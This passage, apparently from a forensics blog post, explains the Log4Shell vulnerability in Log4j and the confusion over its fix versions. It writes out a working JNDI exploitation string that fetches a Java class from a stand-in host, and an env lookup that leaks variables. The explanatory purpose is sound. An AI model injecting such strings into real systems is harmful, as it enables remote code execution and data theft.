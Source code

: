 As an organization, try to find Log4j installations from your infra. And check this [list by NCSC-NL](https://github.com/NCSC-NL/log4shell/tree/main/software) to check status of the products you use!

As a side note, many forensics and blue team tools have been identified or rumored to be vulnerable. These tools include Carbon Black, ~~Splunk, IBM Qradar~~ [1], Autopsy, and Cellebrite. Imagine investigating evidence that contains the exploitation code and your forensic environment allows malicious actor in. This is good reminder why you should always do forensics without and internet access.

[1] These products are not vulnerable to Log4Shell. However, Qradar has vulnerable plugins and Splunk has vulnerable connectors.

## The vulnerability

The vulnerability is consequence of three different features or vulnerabilities in the Log4j:

1. Root cause of the vulnerability is lack of improper input validation (CWE-20). Basically user can input any string to the application and if the application is set to log for example requested URIs, the URI will end up to Log4j logger without any sanitation.

2. The Log4j happens to have lookup feature (yes, it's a feature introduced in version log4j-2.0-beta9), which allows requesting variables from the system running the Log4j component. This feature can be called from Log4j using `${variable_here}` You can request for example username on a Linux system by providing string `${env:USER}` to Log4j, and it will log the username from environment variable user and the value is the running the application.

3. Now we get to the interesting part... :D Java runtime has a [Java Naming and Directory Interface (JNDI)](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) which can be used to discover and look up data from remote endpoints. This feature can be called from Log4j by using the lookup method and adding `jndi` string to the lookup command: `${jndi:method:remoteaddress}`. JNDI allows multiple methods for the look-up: LDAP, DNS, NIS, NDS, RMI, and CORBA, which means we can use any of these methods to look up more data from a remote endpoint. Oh, and the best thing is that JNDI is not a new attack vector, it was [introduced in BHUSA 2016](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf).

If we hosted our malicious Java class in `example.dfir.fi:4444/legit`, our exploitation string would be `${jndi:ldap:example.dfir.fi:4444/legit}`. Inputting this string to vulnerable application would cause the server to look up and execute our Java class hosted on our server.

If you are more interested how the vulnerability works, I suggest you to read [this write-up by Paul Ducklin](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/) of Sophos.

## Version confusion and fixing the vulnerability

First of all, I've seen a lot of arguments that "we are not vulnerable as we use Log4j 1.X". This is true *when we talk about Log4shell* as Log4j 1.X is not vulnerable to this issue. Log4j 1.X however has many other issues, like CVE-2019-178571 in versions 1.2.X. CVE-2019-17571 has also [public PoC](https://0xsapra.github.io/website/CVE-2019-17571).

{{< twitter user="GossiTheDog" id="1469250605826850819" >}}

Log4j version 2.15.0 was released on 9th of December 2021 to fix the issue. The fix sets allowed LDAP hosts and java classes. Allowed LDAP hosts is set to prevent downloads from external sites and allowed java classes to prevent execution of malicious java classes. The version number is confusing as the version 2.15.0 was already released on 6th of December 2021. If you look inside the released version, you can see that the release tag inside `pom.xml` changed from release candidate 1 (rc1) to release candidate 2 (rc2). This means that the fix was actually in rc2 and if you downloaded the version 2.15.0 before the rc2 version was replaced in the product, you are still vulnerable to Log4shell.

